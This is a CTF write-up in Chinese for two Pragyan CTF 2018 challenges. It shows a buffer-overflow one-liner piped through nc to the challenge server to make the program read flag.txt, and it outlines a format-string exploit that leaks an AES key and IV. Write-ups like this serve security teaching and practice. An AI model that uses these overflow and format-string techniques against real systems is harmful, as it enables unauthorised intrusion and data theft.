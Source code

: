 # Pragyan CTF 2018 - Notes

## Old school hack
> Description:
> 
> Chris is trying out to be a police officer and the applications have just been sent into the police academy. He is really eager to find out about his competition. Help it him back the system and view the other applicant’s applications.

> The service is running at 128.199.224.175:13000

一開始要輸入密碼，可以用 ltrace 看

或者用 ida pro 看，
```
 __isoc99_scanf("%s", &password);
  if ( strncmp(&password, "kaiokenx20", 10uLL) )
  {
    puts("Incorrect password. Closing connection.");
    exit(0);
  }
```

這裡可以造成 buffer overflow ，因為 strncmp 只讀後面提供的長度去比對

不過這題保護
```
[*] '/tmp/p/a'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

不過 ltrace 預設只會讀 32 byte ，所以可以用 ltrace 加長來看
```
$ ltrace -s 70 ./a
```

然後用 ida pro 可以看到，他會去比對只要長度符合 36 ，就會去讀檔案

那思路就是先用 buffer overflow 蓋到那個位置，改成 flag.txt 即可

那因為要求長度是 36 ，故需要利用 ././././ 這樣的方式增加長度

```
$ python -c 'print "kaiokenx20aaaaaa././././././././././././././flag.txt\n1000"' | nc 128.199.224.175 13000
```

## Unbreakable encryption
> Description:
>
> Your friend, Liara, has encrypted all her life secrets, using the one of the best encryptions available in the world, the AES. She has challenged you that no matter what, you can never read her life secrets.
> 
> The encryption service is running at :- 128.199.224.175:33000
> The binary file is named aes_enc.
> 
> Her encrypted life secrets are as follows :-
> 
```
0000 - 40 87 68 1a b0 23 73 c4 61 44 b4 c0 21 f1 63 0b @.h..#s.aD..!.c.
0010 - 73 e9 0d 38 e4 bd d8 33 41 64 2c 43 85 d4 54 0e s..8...3Ad,C..T.
0020 - f5 bc 8c 02 db ee 0d e8 d6 29 81 3a 5f cb 63 bd .........).:_.c.
```
> 
> 
> Note: Since some teams were having issues with the buffering of the I/O streams when executing the binary remotely, we have updated the binary file, to flush the output streams properly. The modified binary is named aes_enc_unbf, and will be running on 128.199.224.175:33100

[參考學習](https://ctftime.org/task/5475)
[詳細WRITE_UP](https://bbs.pediy.com/thread-224992.htm)

先用 ida pro 來看，一開始會先讓我們輸入
```
_isoc99_scanf("%s", input);
```

這裡有一個漏洞，因為 scanf() 用 %s ，沒限制長度，所以有 buffer overflow
(吃到 Null byte 才停止， input 大小是 127)


第二個漏洞在他最後印出我們的 message
```
puts("\nYour message is :- ");
printf(input);
```

這裡有 format string 的漏洞

然後在 encrypt() 中，他一開始會 Load aes_iv 和 aes_key

之後有一個 printf()

```
printf(ciphertext_msg);
```

這裡 ciphertext_msg 在 .data ，也就是說它的位置是固定的

看他位置可以
```
$ nm ./vul | grep ciphertext_msg
```

所以我們如果用第一個 format string vuln 去改這個 printf() 也可以造成 format string vuln

且在這個時候， iv 和 key 已經 load 到 stack 中了

所以整個思路是，一開始先利用第一個 format string vuln 來改 encrypt() 中的 printf()裡面的字串

來造成 format string vuln 來印出 iv 和 key ，之後拿來解密